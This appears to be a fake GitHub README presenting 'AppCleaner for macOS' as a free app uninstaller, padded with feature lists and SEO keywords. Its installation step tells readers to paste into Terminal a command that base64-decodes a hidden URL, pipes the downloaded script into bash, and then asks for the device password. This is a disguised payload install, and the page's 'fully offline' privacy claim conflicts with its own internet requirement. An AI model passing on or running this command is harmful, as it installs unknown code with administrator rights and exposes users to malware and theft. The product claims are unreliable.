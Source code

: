 # 🧹 AppCleaner for macOS – Simple App Uninstaller

📌 **About AppCleaner Mac**  
AppCleaner is a powerful yet lightweight macOS application uninstaller that completely removes unwanted programs, including hidden support files, caches, preferences, and leftover folders. Designed for Mac users who value system cleanliness, it ensures every trace of an app is deleted, helping free up disk space and boost performance.  
It works perfectly on macOS Monterey, Ventura, and Sonoma, supports both Apple Silicon and Intel-based Macs, and offers an intuitive drag-and-drop interface for quick uninstalls. By operating entirely offline, AppCleaner guarantees your privacy with zero data tracking. Whether you’re removing old software, cleaning up after tests, or managing multiple Mac devices, it delivers a clean, optimized system every time.

## 🧰 Installation via a command in the terminal:
1. **Copy** the installation command below.  
2. **Open** Terminal on your device, **paste** the command, then press `Return`.  
3. **Enter** your device password when prompted and **confirm** the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"
```
## 📸 Overview  
A quick look at key parts in action:  
- ![](![appcleaner-mac-interface-screenshot](https://github.com/user-attachments/assets/d548ca09-fd29-4ef0-97e5-b076cccec400)
)  
- ![](<img width="1299" height="859" alt="appcleaner-mac-free-up-disk-space" src="https://github.com/user-attachments/assets/e6e9227a-017d-4d52-98ce-6c76313f5204" />
)  

## 🎯 Key Features  
⚡️ **Complete App Removal**: Uninstalls applications and deletes all related files, caches, and preferences.  
🔒 **Offline Privacy**: Works fully offline with no tracking or data sharing.  
⚙️ **Drag-and-Drop Uninstall**: Remove apps by simply dragging them into the AppCleaner window.  
🚀 **Lightweight & Fast**: Runs efficiently without slowing down your Mac.  
🎨 **Native macOS UI**: Matches the macOS look and feel for a seamless user experience.  
📊 **Disk Space Recovery**: Clears leftover files to free up valuable storage.  
🖥 **Universal Mac Support**: Compatible with Apple Silicon and Intel Macs.  
🗑 **System Junk Cleanup**: Helps keep your system organized by removing orphaned files.  
🔄 **Repeatable Tasks**: Ideal for regular app cleanup and system maintenance.  
🧭 **Easy Navigation**: Simple interface for both beginners and advanced Mac users.  
🛠 **Safe Operation**: Prevents accidental deletion of essential system files.  
💾 **Small Footprint**: Uses minimal RAM and storage space.  
📂 **Custom Paths**: Allows scanning and cleaning of user-defined folders.  
⏱ **Quick Processing**: Performs scans and removals in seconds.  
📈 **Performance Boost**: Improves system responsiveness by eliminating unnecessary files.

## 💡 System Requirements  
- **OS**: macOS 12.0 Monterey or newer  
- **CPU**: Apple Silicon or Intel Core i5 and above  
- **RAM**: 4 GB minimum  
- **Storage**: 200 MB available  
- **Others**: Terminal access and active internet connection

## 🔍 SEO Keywords  
`appcleaner mac` · `mac app uninstaller` · `remove mac apps` · `delete apps macos` · `mac cleaner app` · `macos app removal` · `drag drop uninstaller` · `mac remove leftover files` · `uninstall apps completely mac` · `mac system cleaner` · `free up space mac` · `mac disk cleanup` · `mac delete program` · `mac remove software` · `macos cleanup tool` · `app remover mac` · `uninstaller tool macos` · `clean up mac storage`
